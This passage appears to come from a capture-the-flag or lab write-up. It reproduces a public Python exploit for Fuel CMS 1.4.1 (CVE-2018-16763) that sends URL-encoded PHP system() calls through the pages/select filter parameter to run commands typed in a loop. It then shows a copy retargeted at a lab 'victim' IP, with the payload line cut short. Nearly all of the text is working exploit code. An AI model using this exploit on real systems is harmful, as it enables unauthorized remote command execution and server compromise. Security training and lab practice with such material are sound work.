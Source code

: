 ### 47138 Exploit
```sh
└─$ cat 47138.py     
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]                                                                                                                                                                        
```
- **Lets change the IP with My Victim's IP**
```sh
import requests
import urllib

url = "http://10.10.82.45:80"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29>
        #proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url) #, proxies=proxy)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

```